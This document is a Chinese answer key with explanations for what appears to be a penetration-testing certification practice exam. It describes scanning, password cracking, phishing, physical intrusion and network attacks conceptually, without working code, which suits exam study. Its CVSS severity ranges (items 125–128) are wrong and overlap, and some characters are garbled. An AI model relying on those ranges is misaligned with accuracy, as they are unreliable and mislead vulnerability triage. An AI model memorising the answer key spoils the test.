`hping` 实用程序是渗透测试人员常用的数据包制作工具。它允许您制作几乎任何您想要的数据包并将其发送到目标网络上的指定主机。分析主机的响应可以为渗透测试的下一阶段提供有价值的信息。

### 110. A and C.
有了目标组织用户的电子邮件地址列表，您可以进行任意数量的网络钓鱼攻击。您也可以使用电子邮件地址枚举内部用户账户名。在许多（如果不是大多数）组织中，电子邮件用户名几乎总是与用户的账户名相同。


### 111. B.
主机很可能运行的是 Windows。TCP 端口 139、445 和 3389 都常用于 Windows 文件共享服务。虽然这些端口也可能在其他操作系统上使用（如运行 `SMB` 守护进程的 Linux 系统），但更可能是 Windows 主机。

### 112. D.
主机很可能是一个 Web 服务器。系统管理员可能已将默认的 Web 服务器端口更改为非标准端口，以试图隐藏其功能。这是以混淆代替安全的一个例子。

### 113. C.
`–T` 选项配置 `nmap` 运行漏洞扫描的速度。在此场景中，子网可能非常庞大，拥有超过 16 百万个可能的 IP 地址。在如此庞大的子网上使用 `–T0` 选项运行 `nmap` 将需要很长时间才能完成。

### 114. A.
`Whois` 可能揭示有关目标组织的大量信息，包括以下内容：
* 域名注册商
* 注册人的法定姓名
* 注册人的地址
* 注册人的电话号码
* 联系电子邮件地址
* 域名管理员的名称
* 一些组织要求其注册商将此信息隐藏于公众视野之外。

### 115. C.
在此场景中，正在进行黑盒渗透测试。根据定义，测试人员位于目标网络之外。因此，她必须先入侵一台内部主机。完成后，她可以进行横向移动并利用它扫描其他内部主机。

### 116. D.
SCADA 制造设备往往比传统的网络资产（如服务器和路由器）脆弱得多。它们往往难以管理、更新和防止被利用。因此，它们也可能容易受到漏洞扫描的影响，并在扫描过程中离线。

### 117. A.
你可以最有效地运行漏洞扫描的时间窗口受监管要求、峰值流量时间和硬件限制的很大影响。另一方面，内部 IT 人员在渗透测试期间最可能不会参与运行漏洞扫描。

### 118. B.
在此场景中正在进行静态代码分析（也称为 *源代码分析*）。在这种类型的测试中，测试人员访问应用程序的源代码并对其进行审查，以查找可能被利用的弱点。显然，测试人员必须具备扎实的编程背景才能进行此类审查。

### 119. A.
当测试人员向应用程序的输入发送随机、意外的信息以查看其响应时，就会发生模糊测试。例如，测试人员可以通过发送包含可执行代码的过大输入来尝试执行缓冲区溢出利用。如果应用程序未正确处理恶意输入，则可能将可执行代码存储在目标系统的 RAM 中，并且攻击者随后能够执行它。

### 120. C.
由于这是一台关键任务服务器，在扫描实时系统之前在实验室环境中运行测试扫描可能是一个好主意。这将帮助测试人员在实时系统上运行扫描之前评估扫描的影响。

### 121. C.
服务器管理员未续订其安全证书这一事实表明他们并未过多关注此服务器。这会使该系统成为易受攻击的目标，因为可能存在管理员也忽视的其他因素（如更新）。

### 122. E.
漏洞扫描期间收集的信息可以以多种不同的方式进行分类。例如，根据操作系统对信息进行分类可能是合适的，因为不同的操作系统具有不同的固有漏洞。也可根据每个相关资产的价值对信息进行分类。例如，与关键任务数据库服务器相关的漏洞的价值远高于与终端用户桌面系统相关的漏洞。你还可以根据发现的漏洞数量或严重程度对扫描结果进行分类。

### 123. A.
最有可能的是，漏洞扫描器生成了误报错误。漏洞扫描后裁决过程的目的是确定扫描结果的价值和有效性。诸如本场景中讨论的误报，应在提交给客户的最终报告中进行过滤。

### 124. A and D.
在此场景中，入侵易受攻击的域控制器或数据库服务器的价值远高于入侵终端用户易受攻击工作站的价值。例如，入侵域控制器可能会暴露多个用户账户。同样，入侵数据库服务器可能会暴露有价值的公司信息。另一方面，缺少 Windows 功能更新造成的风险可能很小。同样，即使在较旧的发行版上，Linux 也提供相对较高的系统安全性。

### 125. A.
任何小于 4.0 的 CVSS 分数都被认为属于低风险类别。因此，3.8 的 CVSS 分数表明这是一个低风险漏洞。

### 126. D.
任何 10.0 或更高的 CVSS 分数都被认为属于关键风险类别。因此，10 的 CVSS 分数表明这是一个关键漏洞。

### 127. B.
任何在 4.0 到 6.0 之间的 CVSS 分数都被认为属于中等风险类别。因此，5.3 的 CVSS 分数表明这是一个中等风险漏洞。

### 128. C.
任何在 6.0 到 10.0 之间的 CVSS 分数都被认为属于高风险类别。因此，7.2 的 CVSS 分数表明这是一个高风险漏洞。

### 129. B and C.
你对缺少更新的常见主题的第一个响应将是调查这是否会产生你在渗透测试中稍后可以利用的任何漏洞。然后，你应记录缺少更新的常见主题，以便客户更新其最佳实践，确保系统保持最新。

### 130. A.
对你观察到的过时服务器的第一个响应将是调查这是否会产生你在渗透测试中稍后可以利用的任何漏洞。然后，你应在最终报告中建议客户升级其服务器。

### 131. A and B.
你对客户缺乏最佳实践的第一个响应将是在渗透测试中稍后利用具有默认用户名和密码的设备。然后，你应在最终报告中建议客户采用更好的最佳实践。

### 132. A and D.
而不是购买 Windows 系统，你只需在 Linux 系统上创建漏洞利用代码，然后交叉编译代码，使其能够在 Windows 系统上运行。有各种 Linux 实用程序可以为你执行此操作。

### 133. B and D.
在此场景中，你首先将扫描中发现的漏洞映射到可能的利用。然后你修改了这些利用，使其能够在较旧的服务器操作系统上工作。

### 134. C.
在此场景中，你将多个漏洞利用链接在一起以入侵目标系统。这称为 *exploit chaining*。

### 135. B.
在此场景中，你需要在实际攻击目标服务器之前测试修改后的漏洞利用，以确保其有效且没有任何 unintended 影响。一个有效的方法是使用你的枚举信息在实验室环境中将目标系统重新创建为虚拟机并测试修改后的漏洞利用。此过程称为 *proof-of-concept development*。

### 136. A and C.
在此场景中，你使用了欺骗和社会工程学来获得目标组织的物理网络访问权限。


# 安全评估笔记

### 137. C.
凭证暴力破解是指尝试一个又一个密码，直到最终命中正确的密码为止。这可能针对用户账户执行，也可能针对其他安全系统，例如使用预共享密钥的 WPA2 无线网络。

### 138. D.
字典攻击是一种暴力破解攻击。然而，在字典攻击中，会使用常用密码列表，逐一尝试，以期找到正确的密码。

### 139. A.
彩虹表包含预先计算的常用密码哈希值列表，可用于离线密码文件破解。

### 140. A and B.
工业控制系统（ICSs）和监控与数据采集（SCADA）系统常用于工厂自动化设备和环境控制中。它们倾向于运行在较旧的操作系统上，其软件/固件也倾向于很少更新。这可能使此类系统更容易受到安全漏洞利用。它们通常也相当脆弱，因此使用漏洞扫描器扫描时请谨慎。

### 141. B and E.
移动设备在现代网络中代表着一个重大的安全弱点。移动设备相关的问题众多，其中渗透测试人员应注意的两点是它们倾向于以不一致的方式进行更新。对于 Apple 设备而言这不是太大问题，因为它们控制硬件和软件。然而，对于 Android 设备而言这是一个重大问题。如果你检查一组 Android 设备的更新级别，你很可能找不到两台相同的设备。此外，一些用户会 root 或越狱其设备，以便在批准的商店渠道之外安装应用。这使这些设备容易受到恶意软件的侵害。

### 142. D and E.
物联网设备，例如智能家电、电视等，倾向于具有最弱的固有安全性。它们并非以安全为设计考虑，难以管理，且厂商很少发布安全更新。用于工业控制设备的嵌入式设备也倾向于遭受同样的弱点。

### 143. C and D.
在此场景中，POS 系统面临的最大风险是它们暴露于互联网，并且运行的是不受支持的（因此高度脆弱的）操作系统。客户应将 POS 系统隔离在其自己的子网中，远离互联网。他们还应将硬件和软件升级到更新版本，以消除运行古老操作系统的风险。

### 144. A.
与生物特征指纹读取器相关最大的安全风险是它们可能被假指纹欺骗。几年前在电视节目 *MythBusters* 的一集中，主演们能够通过从杯子上提取授权用户的指纹来击败指纹读取器。在此场景中，你可能应建议客户升级到面部识别身份验证系统，因为它们已被证明更难被欺骗。

### 145. A.
物联网（IoT）是指连接到互联网的物理产品和设备的网络。制造商和开发人员希望最大限度地降低成本以增加利润。因此，安全性通常不是产品或设备的关键特性。因此，与网络上的任何其他设备一样，物联网设备可能存在安全漏洞，并可能遭受基于网络的攻击。

### 146. D.
端口 21 用于 TCP 和 FTP，并用作控制端口。端口 80 用于 TCP 和 HTTP，并用于传输网页。端口 443 用于 TCP、HTTPS，是 HTTP over TLS/SSL，用于加密传输。

在此场景中，渗透测试人员发现的所有端口都与 Web 有关。因此，此问题的答案是敏感信息可能在 Web 服务器上泄露，因为这些是在漏洞扫描期间指示的端口。

### 147. B.
发现扫描可识别网络上运行的操作系统，将这些系统映射到 IP 地址，并枚举这些系统上的开放端口和服务。发现扫描为渗透测试人员提供了一种自动化的方式来识别网络上存在的托管并构建资产清单。

### 148. D.
凭证扫描需要对目标服务器进行只读访问。客户应遵循最小权限原则并限制提供给测试人员的访问权限。你应考虑要求创建一个具有类似只读访问权限的特定“审计”账户。专用“审计”账户的优点是会出现在日志中，并能被 IT 中的每个人立即识别为可能已批准的活动。

### 149. D.
代码测试通常使用静态或动态代码分析以及诸如模糊测试和故障注入之类的测试方法进行。一旦对代码进行更改并部署后，必须重新测试以确保更改不会创建任何新的安全问题。由于在此场景中我们仅审查代码，我们将进行静态代码分析。静态代码分析，也称为源代码分析，是通过审查应用程序的代码来完成的。由于静态分析使用源代码，它可以被视为一种具有完全可见性的白盒测试类型。这可以使测试人员发现其他测试可能无法发现的问题。

### 150. B.
`Dsquery.exe` 是用于查找 Active Directory 域中各种对象信息的命令行实用程序。该实用程序默认在所有 Windows Server 版本中可用。`dsquery` 命令允许你查询 LDAP 目录以查找符合指定条件的对象。作为 `dsquery` 命令的一个属性，你需要指定正在搜索的 AD 对象的类型。在此场景中，你正在查找过去 30 天内不活跃的用户账户，因此你将使用 `dsquery user -inactive < NumWeeks >`。

### 151. D.
参与的时间线以及何时可以进行测试将对高峰时段客户系统的观察和测试产生最大影响。一些评估将安排在非关键时间段，以最大限度地减少任何潜在中断的影响，而其他评估可能安排在正常工作时间内，以帮助测试组织对攻击的反应。

### 152. D.
误报是指系统错误地将生物特征样本接受为匹配。生物特征传感器由于多种原因有时会出错。识别过程将呈现给系统的生物特征，例如指纹或虹膜扫描，与数据库中的所有条目进行比较以寻找匹配项。这被称为 *one-to-many* 搜索。活体生物特征会因年龄、气候或手指可能的受伤而发生变化。厂商将这些阈值设置称为 *false acceptance rates*（FARs）和 *false rejection rates*（FRRs）。

### 153. C and E.
合规扫描侧重于应用于系统的配置设置或安全加固。当对单个计算系统执行合规扫描时，它会生成一份报告，定义系统针对所选合规框架的加固程度。合规扫描并非旨在定位软件应用程序或操作系统的漏洞，而是旨在定位和评估系统加固配置中的漏洞。在此场景中，由于你看到的网络上的资产比网络架构中提供的更多，你可以将此归因于网络访问或存储访问受限。


# 第三章：攻击与利用

### 154. D.
SNMP 暴力破解攻击会通过 SNMP 查询攻击 IP 地址，以确定 SNMP 只读和读写社区字符串（或密码）。它通过尝试每一种可能的密码来实现这一点。由 SNMP 创建的主信息库（MIB）数据库包含网络上每个设备的重要信息。如果测试人员能够破解 SNMP 密码，他们可能能够控制每个网络设备。这将允许更改配置以使设备离线。

### 155. A.
字典攻击是一种通过将字典中的每个单词彻底输入作为密码来侵入受密码保护的计算机或服务器的方法。字典攻击之所以有效，是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预先构建的单词词典。在许多情况下，渗透测试人员可以根据知识为其渗透测试向词典文件添加额外的特定词典条目，这在执行字典攻击时非常有益。在此场景中，渗透测试人员使用了社交媒体来查找在字典攻击中可能有益的额外关键词。

### 156. C.
在此场景中，由于客户员工使用字典单词作为密码，最好的应对方法是扩展密码长度并添加特殊字符。用于密码的特殊字符是标准美国键盘上存在的一组标点字符。其中包括 !"#$%&’()\*+,-./:;<=>?@\[\\\]^\_’{|}~。这将使攻击者更难侵入客户的系统。

### 157. C.
全面扫描将为您提供更有用的结果，因为它包含更多测试。场景中没有要求测试人员避免被检测，因此隐蔽扫描是不必要的。但由于这是一次黑盒测试，最好在网络上运行全面扫描。

### 158. D.
被动扫描是一种漏洞检测方法，它依赖于从目标计算机捕获的网络数据中获得的信息，而无需直接交互。对攻击者而言，被动扫描的主要优势在于它不会留下可能提醒用户或管理员的痕迹。对管理员而言，主要优势在于它不会在目标计算机上引起不期望的行为。被动扫描确实存在局限性。它在细节上不如主动漏洞扫描完整，并且无法检测当前未发送流量的任何应用程序。

### 159. A.
凭证扫描是指扫描计算机在被扫描计算机上拥有一个账户，从而允许扫描程序进行更彻底的检查，以查找从网络上看不到的问题。凭证扫描在企业漏洞管理计划中被广泛使用，并且在执行渗透测试时是一个有用的工具。凭证扫描可以访问操作系统、数据库和应用程序。凭证扫描通常仅从目标服务器检索信息，并且不会对服务器本身进行更改。

### 160. B.
假阳性是在某些评估过程中出现的错误，其中被测试的条件被错误地发现已被检测到。扫描程序可能没有足够的访问权限来确认目标系统的漏洞，或者它可能只是插件中的错误导致生成了错误的漏洞报告。当扫描程序报告不存在的漏洞时，这被称为 *false positive error*。

### 161. D.
交叉编译代码用于目标平台位于不同架构时。测试人员可能无法访问目标机器上的编译器，或者可能需要从主工作站编译漏洞利用代码，而主工作站的架构与目标不同。

### 162. A and B.
彩虹表通过执行查找而不是使用暴力破解，提供了一种强大的攻击哈希密码的方法。彩虹表是针对给定密码要求的所有可能密码的预计算列表，然后基于已知的哈希算法（如 MD5）进行哈希处理。彩虹表用于反向攻击哈希密码。彩虹表通常是仅限离线的攻击。它使用的计算周期比任何其他形式的攻击都少。暴力攻击是通过试错方法尝试破解密码或用户名，攻击者提交大量密码或短语，有机会最终猜对密码。

### 163. A.
彩虹表是针对给定密码规则的所有可能密码的预计算哈希列表。彩虹表工具将哈希与先前计算的哈希进行比较，后者与已知密码值匹配。这是通过相当快的数据库查找完成的，即使哈希不可逆，也允许“破解”哈希密码。密码文件是哈希值列表。

### 164. D.
开源情报（OSINT）工具和技术是指通过公开可用信息查找在渗透测试期间可能有用的组织和技术细节的方法。OSINT 是可以轻松收集的信息。OSINT 通常用于确定组织的足迹，其中包括组织拥有的所有系统、网络和其他技术的列表。

### 165. B.
Nessus 是一种商业漏洞扫描工具，用于扫描各种设备，并且不是用于 OSINT 收集的可用工具之一。有多种工具可协助进行此 OSINT 收集：
* Censys 是一种基于网络的工具，它探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供访问该信息的方式。
* Fingerprinting Organizations with Collected Archives（FOCA）是一种开源工具，用于在 Microsoft Office 文档、PDF 和其他常见文件格式中查找元数据。
* Maltego 是一种商业产品，可协助可视化从 OSINT 工作中收集的数据。
* Nslookup 工具有助于识别与组织关联的 IP 地址。
* Recon-ng 是一种模块化网络侦察框架，可组织和管理 OSINT 工作。
* Shodan 是一个专用搜索引擎，用于从公共来源发现易受攻击的物联网（IoT）设备。
* theHarvester 搜索搜索引擎和其他资源以查找组织的电子邮件地址、员工姓名和基础设施细节。
* Whois 工具从公共记录中收集有关域名所有权的信息。

### 166. B.
计算机应急响应团队（CERT）专注于安全漏洞和拒绝服务事件，提供警报以及事件处理和避免指南。CERT 还开展持续的公众宣传活动，并参与旨在改进安全系统的研究。

### 167. A.
通用攻击模式枚举和分类（CAPEC）列表是一种旨在帮助识别和记录攻击及攻击模式的资源。用户可以按其机制或域搜索攻击，然后按各种属性和先决条件分解每种攻击。CAPEC 还建议解决方案和缓解措施，这在编写渗透测试报告时识别控制措施时很有用。

### 168. D.
在渗透测试期间，测试人员可能希望配置其扫描以作为隐蔽扫描运行，后者会竭尽全力避免使用可能引起注意的测试。扫描引起的服务中断、错误消息和日志条目可能会引起网络安全团队的注意，导致他们以妨碍渗透测试的方式调整防御。使用隐蔽扫描更准确地模拟了熟练攻击者的活动，从而实现更真实的渗透测试。


# 社会工程学场景

### 1. A.
在此场景中使用了钓鱼攻击，因为恶意邮件被无差别地发送给了组织内的所有员工。

### 2. C.
在此场景中使用了 spear phishing 攻击，因为恶意邮件是专门为特定员工定制的。相比之下，普通的钓鱼攻击则会被无差别地发送给组织内的大量员工。

### 3. D.
捕鲸攻击本质上是一种针对 C 级高管（如 CEO、CFO、COO、CIO 等）的 spear phishing 攻击。相比之下，标准的 spear phishing 攻击则会发送给组织内的低级别员工。

### 4. B.
在此场景中使用了 SMS 钓鱼攻击（也称为 *短信钓鱼* 攻击）。短信钓鱼攻击利用短信而不是电子邮件来进行钓鱼利用。

### 5. B.
在此场景中使用了语音钓鱼攻击（也称为 *语音钓鱼* 攻击）。语音钓鱼攻击利用电话呼叫而不是电子邮件来进行钓鱼利用。基本上，攻击者冒充他人给特定员工打电话以获取信息。

### 6. D.
审问涉及对目标组织的员工进行提问，以恐惧作为动机来收集信息。审问不是渗透测试人员通常使用的技术。

### 7. A.
冒充是一种社会工程技术，可由渗透测试人员用来获得对目标设施的物理访问。在此场景中，前台允许测试人员进入组织的设施，因为测试人员看起来来自受信任的供应商。

### 8. A and E.
冒充是一种社会工程技术，可由渗透测试人员用来获得对目标设施的物理访问。在此场景中，前台允许测试人员进入组织的设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了诱导技术来从员工那里收集敏感信息。

### 9. A and C.
冒充是一种社会工程技术，可由渗透测试人员用来获得对目标设施的物理访问。在此场景中，前台允许测试人员进入组织的设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了肩窥技术来从员工那里收集敏感信息。

### 10. C and E.
冒充是一种社会工程技术，可由渗透测试人员用来获得目标组织员工的信任。在此场景中，员工信任测试人员，因为电子邮件看起来来自另一名员工。测试人员利用这种信任来诱导出那些员工的敏感信息。这有时被称为 *企业电子邮件欺诈*。

### 11. B.
在 USB 钥匙掉落攻击中，通常会在闪存驱动器上加载某种恶意软件。然后该驱动器会被故意遗留在目标组织的员工很可能找到的地方。目标是让员工插入它以查看其内容。当这种情况发生时，恶意软件会自动加载到受害者的计算机上。

### 12. A.
在标准的钓鱼利用中，电子邮件会被无差别地发送给大量个人，希望其中一部分人会点击邮件中包含的恶意链接。

### 13. C.
SMS 钓鱼攻击（也称为 *短信钓鱼* 攻击）利用短信而不是电子邮件来进行钓鱼利用。

### 14. A.
语音钓鱼攻击（也称为 *语音钓鱼* 攻击）利用电话呼叫而不是电子邮件来进行钓鱼利用。基本上，攻击者冒充他人给特定员工打电话以获取信息。

### 15. A and D.
spear phishing 和捕鲸攻击都要求渗透测试人员进行广泛的研究，以识别组织内的高价值目标个人。

### 16. A.
审问涉及对目标组织的员工进行提问，以恐惧作为动机来收集信息。审问不是渗透测试人员通常使用的技术，因为它很可能会导致对测试人员的刑事指控以及民事诉讼。

### 17. B and D.
冒充是一种社会工程技术，可由渗透测试人员用来获得对目标设施的物理访问。在此场景中，前台允许测试人员进入组织的设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了 USB 钥匙掉落攻击，希望用户会将闪存驱动器插入其计算机并安装其包含的恶意软件。

### 18. C.
渗透测试人员在此场景中使用了肩窥技术。在肩窥中，测试人员会观察员工在计算机上输入或显示的信息，以尝试收集敏感信息。例如，测试人员可能会使用肩窥来收集用户名、密码、电子邮件地址、电话号码、文件服务器共享名称等。

### 19. D and E.
渗透测试人员在此场景中使用了肩窥和企业电子邮件欺诈技术。在肩窥中，测试人员会观察员工在计算机上输入或显示的信息，以尝试收集敏感信息。在此示例中，测试人员使用肩窥收集了员工的电子邮件用户名和密码。然后测试人员使用被入侵的账户来从其他员工那里收集信息。这称为企业电子邮件欺诈。

### 20. B.
这是一个诱导的例子。通过赢得员工的信任，测试人员能够从他们那里诱导出有关其雇主的敏感信息。

### 21. A.
通过冒充高层管理人员，渗透测试人员在此示例中利用了权威诉求来迫使员工泄露敏感信息。

### 22. D.
通过冒充 FBI 特工，渗透测试人员在此示例中利用了权威（以及可能的恐惧）作为动机因素来迫使员工泄露敏感信息。

### 23. B.
在此场景中，通过冒充极度困扰的同事，渗透测试人员正在使用紧迫感来促使员工交出他的用户名和密码。她也可能在使用亲和力作为因素。

### 24. A.
渗透测试人员正在使用社会认同作为动机因素。因为看起来有超过 1,000 人对该网站有过积极的体验，大多数员工可能会信任该网站，即使它要求他们泄露敏感信息。

### 25. D.
渗透测试人员正在使用稀缺性作为动机因素。通过断言只有少量设备以大幅折扣价出售，员工会被激励在库存用完之前进行购买。

### 26. D.
渗透测试人员正在使用相似性作为动机因素。通过雇用年轻、友好且有吸引力的助手，渗透测试人员能够迫使目标组织的员工透露有关其雇主的敏感信息。

### 27. A.
渗透测试人员正在使用恐惧作为动机因素。无论该说法是否属实，CFO 都知道这样的揭露可能会损害他的家庭和职业。它还可能使他面临起诉。这可能会促使他泄露敏感信息。

### 28. C.
渗透测试人员正在使用权威（以及可能伴随的紧迫感和恐惧）作为动机因素。销售代表可能会倾向于创建 VPN 连接以防止所谓的失去重要客户。


# 渗透测试笔记

## 社会工程学动机因素

29. B. 渗透测试人员正在使用紧迫性（以及可能的相似性）作为动机因素。员工可能会出于想被视为“团队合作者”的愿望而遵从请求。通过事先进行侦察并识别组织中真实的销售代表姓名，可以使此类攻击变得更加有效。

30. A 和 B。渗透测试人员在此示例中使用了两个动机因素。她使用了紧迫性和社会认同作为动机因素。由于这是一笔巨大的订单，员工可能感到有紧迫感需要遵从。渗透测试人员还通过提及熟悉的同事姓名来运用社会认同。这可能有助于员工更安心地向渗透测试人员提供其用户名和密码。

31. C. 当人们认为自己想要的东西供应有限时，可以被激励迅速行动。这被称为 *稀缺性*。他们不想错过即将不再可用的机会、产品、交易或服务。

32. A. 如果人们认为其他人都在做同样的事情，就会受到激励去行动。这被称为 *社会认同*。这种（有缺陷的）假设是，如果其他人都在做某事，那就一定是对的。

33. C. 人们天生受对权威的尊重所驱动。当他们相信权威人士希望他们做某事时，他们经常会遵从，尤其是如果请求伴随着紧迫感。

34. B. 许多人天生有帮助处于困境中的他人的动机。这被称为 *紧迫性*。当他们认为有人需要帮助时，可能会为了帮助对方而违反或破坏规则。

35. A. 大多数人会帮助他们认为的朋友。这被称为 *相似性*。当他们认为的朋友需要帮助时，可能会为了帮助对方而违反或破坏规则。

36. B. 如果人们因害怕不行动的后果而受到恐吓，大多数人会对行动请求做出回应。这是人类最基本的动机之一。

## 物理安全攻击

37. A. 跟随进入发生在入侵者跟随授权人员通过物理屏障（如锁门或旋转门）时。这是在未经授权人员知晓或同意的情况下发生的。

38. B. 蹭门发生在入侵者跟随授权人员通过物理屏障（如锁门或旋转门）时。这是在授权人员知晓和/或同意的情况下发生的。

39. A. 跟随进入发生在入侵者跟随一个或多个授权人员通过物理屏障（如锁门或旋转门）时。这是在未经授权人员知晓或同意的情况下发生的。

40. D. �越围栏发生在未经授权的人员简单地翻越旨在控制访问的物理屏障时。在此场景中，渗透测试人员只是跨过旨在防止未经授权人员进入的旋转门。

41. A. 垃圾翻找发生在攻击者在目标组织的垃圾中搜寻敏感信息时。

42. A. 由于服务器机房受相对不复杂的锁定机制保护，渗透测试人员可以撬锁进入，前提是他具备必要的开锁技能。注意，这必须在没有监控或人流的区域进行，因为完成可能需要一些时间。

43. B. 锁绕过发生在攻击者使门的锁定机制失效时。例如，这可以通过在锁定卡舌上贴胶带来实现，正如在此场景中所做的那样。

44. D. 出口传感器绕过发生在攻击者操纵出口传感器以解锁门时。在此场景中，空气除尘器喷出的移动压缩空气比周围空气更冷更密，导致出口传感器误认为有人正在离开建筑物并解锁大门。

45. C. 徽章克隆发生在攻击者复制有效的访问徽章以进入设施时。通过复制有效徽章的 RFID 信号，场景中的渗透测试人员可以使用假徽章利用授权员工的凭证访问目标组织的设施。

46. B. 蹭门发生在入侵者跟随授权人员通过物理屏障（如锁门或旋转门）时。这是在授权人员知晓和/或同意的情况下发生的。在此示例中，授权员工为渗透测试人员打开了门。

47. A. 跟随进入发生在入侵者跟随一个或多个授权人员通过物理屏障（如锁门或旋转门）时。这是在未经授权人员知晓或同意的情况下发生的。

48. D. �越围栏发生在未经授权的人员简单地翻越或切开旨在控制访问的物理屏障时。在此场景中，测试人员通过在围栏上切一个洞来穿透物理围栏屏障。

49. A. 垃圾翻找发生在攻击者在目标组织的垃圾中搜寻敏感信息时。

50. C 和 D。至少，你需要一个张力扳手和一个开锁工具来开锁。张力扳手用于对锁施加旋转压力（朝解锁方向）。开锁工具用于释放锁内的每个弹子。

51. B. 锁绕过发生在攻击者使门的锁定机制失效时。在此示例中，这是通过在门框中放置木楔来实现的，防止门完全关闭并防止锁定机制启动。

52. A. 大多数自动上锁门系统都具有某种类型的紧急失效开启机制。其原理是，如果发生某种紧急情况，例如火灾，则门必须自动解锁，以防止人员被困在内部或阻止应急人员进入。如果你能弄清楚使用了什么失效开启机制，你可能能够手动触发它来打开锁住的门。

53. B 和 D。在此场景中，使用垃圾翻找来找到被丢弃的访问徽章。然后使用徽章克隆来制作假徽章。

54. D. 徽章克隆发生在攻击者复制有效的访问徽章以进入设施时。通过复制有效徽章的 RFID 信号，场景中的渗透测试人员可以使用假徽章利用授权员工的凭证访问目标组织的设施。由于他仔细选择了高级别员工的徽章进行克隆，他可能能够访问设施中更敏感的区域。

## 网络足迹追踪与协议分析

55. A. NetBIOS 是一种由 Windows 系统用于共享资源（如共享文件夹或打印机）的传输协议。一旦攻击者发现设备上的 139 端口处于开放状态，`NBTSTAT` 就可以用来对设备进行足迹探测。例如，你可以发现设备的计算机名称并识别它是工作站还是服务器。所有这些信息都可以在没有任何身份验证的情况下收集。

56. A. `NBTSTAT` 使用 ID <20> 标识 NetBIOS 服务器。根据此输出，你知道 DEV-1 最有可能是 Windows 服务器（或运行 Samba 服务的 Linux 服务器）。

57. B. `NBTSTAT` 使用 ID <00> 标识 NetBIOS 工作站。根据此输出，你知道 PROD-9 最有可能是 Windows 工作站（或运行 Samba 服务的 Linux 工作站）。

58. A 和 E。LLMNR 协议松散地基于 DNS 数据包格式，允许 IPv4 和 IPv6 主机在没有 DNS 服务器的情况下为同一本地网络上的其他主机执行名称解析。它同时受 Windows 和 Linux 主机支持。


# 渗透测试相关协议与攻击示例

### 59. B and C
`LLMNR` 协议存在许多可在渗透测试中被利用的安全漏洞。例如，它缺乏诸如身份验证之类的安全控制。正因如此，网络上的恶意主机可以冒充自己想要的任何主机。

### 60. A and C
服务器消息块 (`SMB`) 协议用于在网络上的主机之间共享文件和打印机。

### 61. D and E
`EternalBlue` 和 `WannaCry` 利用是由 `SMB` 协议中的弱点促成的。`EternalBlue` 利用利用了 `SMBv1` 错误处理利用数据包这一事实，使攻击者能够在运行 `SMB` 协议的系统上远程执行恶意代码。`WannaCry` 是一种勒索软件，利用 `EternalBlue` 访问易受攻击的系统并自行安装。

### 62. C and E
`SMB` 协议使用 `TCP` 端口 `139` 和 `445`。打开这两个端口的系统很可能是一台运行 `SMB` 的 Windows 主机或运行 `Samba` 的 Linux 主机（`Samba` 是 `SMB` 服务的开源实现）。

### 63. A and B
`SNMPv1` 协议是一种较旧的协议，使用社区字符串的概念而不是密码。相同的社区字符串用于对网络中的每个 `SNMPv1` 主机进行身份验证。按惯例，大多数 `SNMPv1` 管理员将社区字符串设置为 `public` 值。即使使用了唯一的社区字符串，也很容易被发现，因为它在网络上传输时是明文。

### 64. A
`SNMP` 协议运行在 `UDP` 端口 `161` 上。

### 65. B
`SMTP` 协议用于在邮件传输代理 (`MTAs`) 之间传输电子邮件消息。

### 66. B
利用开放的 `SMTP` 服务发送未经授权的电子邮件称为 `SMTP relay`。大多数新系统都采取了防止这种情况发生的措施，但许多旧的服务器系统并未如此。

### 67. A
利用开放的 `SMTP` 服务发送未经授权的电子邮件的一种方法是使用 `Telnet` 客户端连接到 `SMTP` 服务器的 IP 地址的端口 `25`。一旦建立连接，您就可以使用命令行界面创建和发送消息。

### 68. A and B
默认情况下，`FTP` 服务器使用两个端口：`20` 和 `21`。端口 `20` 用于在 `FTP` 服务器和 `FTP` 客户端之间传输数据。端口 `21` 用于在 `FTP` 客户端和 `FTP` 服务器之间发送命令。

### 69. C
`FTP` 协议的关键弱点之一是它以明文形式传输 `FTP` 服务器和 `FTP` 客户端之间的所有数据，包括身份验证凭据。通过嗅探 `FTP` 流量，您可能能够捕获 `FTP` 用户名和密码。某些 `FTP` 服务器实现利用现有的网络用户账户和密码来验证 `FTP` 连接。因此，通过捕获 `FTP` 身份验证凭据，您可能同时捕获了内部网络用户账户和密码。

### 70. A
这是一个 `DNS` 污染的例子。此利用利用了用户对看起来有效的 URL 的信任。因为用户输入的是有效 URL，他们根本不知道正在进行利用。然而，`DNS` 服务器本身已被重新配置，将 URL 中的域名解析为恶意服务器的 IP 地址。

### 71. A
防御 `DNS` 污染的一种方法是实施 `DNSSEC`。`DNSSEC` 使用数字签名对每个 `DNS` 请求进行签名以确保真实性。这使得插入中毒记录变得困难。

### 72. C
这是一个 `DNS` 缓存中毒的例子。渗透测试人员不是入侵防护严密的 `DNS` 服务器，而是简单地入侵相对安全性较低的工作站上的 `DNS` 缓存。净效果是相同的。恶意软件是 `DNS` 缓存中毒利用的常见投递载体。

### 73. C
这也是一个 `DNS` 缓存中毒的例子。在此场景中，不是污染工作站上的本地 `DNS` 缓存，而是缓存型 `DNS` 服务器的缓存已被污染。中毒的记录将保留在缓存中，直到达到 `TTL` 值。

### 74. D
这是一个传递哈希利用的例子。在此利用中，测试人员捕获哈希的 `NTLM` 用户凭据，然后在稍后的时间点将其重用于向 Windows 系统进行身份验证。因为 `NTLM` 身份验证使用哈希凭据，测试人员不需要知道受害者的实际用户名和密码。哈希凭据足以创建新的已验证会话。

### 75. B
这是一个 `ARP` 欺骗的例子。在此利用中，测试人员在网络段上发送虚假的 `ARP` 广播，将合法网络主机的 IP 地址映射到她的 `MAC` 地址。因此，所有发往合法主机的流量都会被重定向到测试人员的系统。

### 76. B
`ARP` 欺骗攻击被归类为中间人攻击。

### 77. D
这是一个重放攻击的例子。测试人员从无线网络捕获有效的握手数据，然后稍后重放它以将他的笔记本电脑认证到无线网络。

### 78. D
重放攻击也被归类为中间人攻击。

### 79. A
这是一个中继攻击的例子。攻击者坐在网络上通信的两个主机之间，在本例中是工作站和服务器。对服务器而言，攻击者冒充工作站。对工作站而言，攻击者冒充服务器。

### 80. A
这也是一个中继攻击的例子。攻击者坐在网络上通信的两个主机之间，在本例中是工作站和服务器。对服务器而言，攻击者冒充工作站。对工作站而言，攻击者冒充服务器。在中继攻击中，中间人可能修改也可能不修改在两个主机之间传输的数据。

